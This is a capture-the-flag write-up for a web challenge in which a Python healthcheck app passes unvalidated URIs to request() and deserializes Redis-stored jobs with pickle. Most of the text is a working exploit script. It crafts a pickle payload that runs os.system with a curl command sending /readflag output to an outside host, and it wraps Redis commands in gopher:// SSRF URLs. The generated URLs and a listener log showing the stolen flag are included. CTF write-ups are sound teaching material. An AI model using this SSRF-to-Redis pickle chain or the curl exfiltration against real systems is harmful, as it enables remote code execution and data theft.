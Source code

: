 # [Web - hard] Trap Track

This webapp is written in Python, and has a Redis cache to store information. It accepts URIs as input and will perform a Python `request()` via regular Jobs on the given URI to check if the endpoint responds, like a healthcheck.

The vulnerabilities are:

- the URI given to `request()` is not validated. It can be any URI scheme, even using `gopher://127.0.0.1:6379` to interact with Redis
```python
def run_worker():
    job = get_work_item()
    if not job:
        return
    incr_field(job, 'inprogress')
    trapURL = job['trap_url']
    response = request(trapURL)
```
- the Jobs are stored in Redis serialized, then deserialized with `pickle.loads`. Creating a specially crafted `pickle` job will lead to a RCE
```python
def get_work_item():
    job_id = store.rpop(env('REDIS_QUEUE'))
    if not job_id:
        return False
    data = store.hget(env('REDIS_JOBS'), job_id)
    job = pickle.loads(base64.b64decode(data))
```

In order to get the flag, we need to:

- login as admin/admin (that's given)
- generate a `pickle` serialized payload, leading the an RCE, in order to exfiltrate the flag to an HTTP listener
- generate the Redis commands equivalent to storing a new Job in Redis so that the specially crafted serialized payload is executed as any Job, using the `gopher://127.0.0.1:6379` URIs. Especially the ID should not mangle the original ID and be in sequence with the rest

The final script doesn't automate the whole process, but it gives the 2 Redis commands to input, given the last Job ID seen. Inputing those 2 commands, will trigger the Jobs to exfiltrate the flag to a remote HTTP server.

```python
import requests
import urllib
import pickle, os, base64
import sys

payload = 'curl http://1.2.3.4:4444/$(/readflag)'

class P(object):
    def __reduce__(self):
        return (os.system,(payload,))

def generate_resp(command):
    res = ""
    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
    return res

def generate_gopher(payload):
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    return final_payload

def main(last_job_id_seen):
    job_id = last_job_id_seen + 3 # current job + 1 for HSET + 1 for RPUSH + 1 for correct place
    exploit = base64.b64encode(pickle.dumps(P())).decode('utf8')
    redis_cmd_1 = 'HSET jobs {} {}'.format(job_id, exploit)
    redis_cmd_2 = 'RPUSH jobqueue {}'.format(job_id)

    res = ''
    res += generate_resp(redis_cmd_1)
    res += generate_resp('quit')
    res = res.replace("\n","\r\n")
    gopher_cmd = generate_gopher(res)
    print(gopher_cmd)

    res = ''
    res += generate_resp(redis_cmd_2)
    res += generate_resp('quit')
    res = res.replace("\n","\r\n")
    gopher_cmd = generate_gopher(res)
    print(gopher_cmd)

if len(sys.argv) != 2:
    print("Usage: {} last_job_id".format(sys.argv[0]))
    exit(1)
main(int(sys.argv[1]))
```

The output (2 commands to input), given that the first JobID is 100, are:

```bash
$ python lol.py 100
gopher://127.0.0.1:6379/_%2A4%0D%0A%244%0D%0AHSET%0D%0A%244%0D%0Ajobs%0D%0A%243%0D%0A103%0D%0A%24100%0D%0AgASVQAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCVjdXJsIGh0dHA6Ly8xLjIuMy40OjQ0NDQvJCgvcmVhZGZsYWcplIWUUpQu%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
gopher://127.0.0.1:6379/_%2A3%0D%0A%245%0D%0ARPUSH%0D%0A%248%0D%0Ajobqueue%0D%0A%243%0D%0A103%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```

After copy pasting them in the console, from the HTTP listener:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
165.22.116.7 - - [25/Mar/2023 08:31:10] code 404, message File not found
165.22.116.7 - - [25/Mar/2023 08:31:10] "GET /HTBtr4p_qu3u3d_t0_rc3! HTTP/1.1" 404 -
```
